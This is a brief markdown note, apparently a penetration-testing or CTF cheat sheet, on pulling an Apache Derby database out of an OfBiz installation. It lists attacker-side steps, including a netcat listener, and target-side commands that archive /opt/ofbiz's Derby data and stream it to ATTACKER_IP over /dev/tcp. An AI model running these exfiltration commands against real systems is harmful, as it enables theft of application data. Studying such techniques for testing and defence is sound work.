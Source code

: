 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

## Attacker

 - sudo apt install derby-tools (Install the tool needed to interact with the database)

 - nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

## Target Machine

 - cd /opt/ofbiz/runtime/data/derby

 - tar cvf ofbiz.tar ofbiz

 - cat ofbiz.tar > /dev/tcp/ATTACKER_IP/4444 (Compress the entire database with tar, then write all data to our listener)
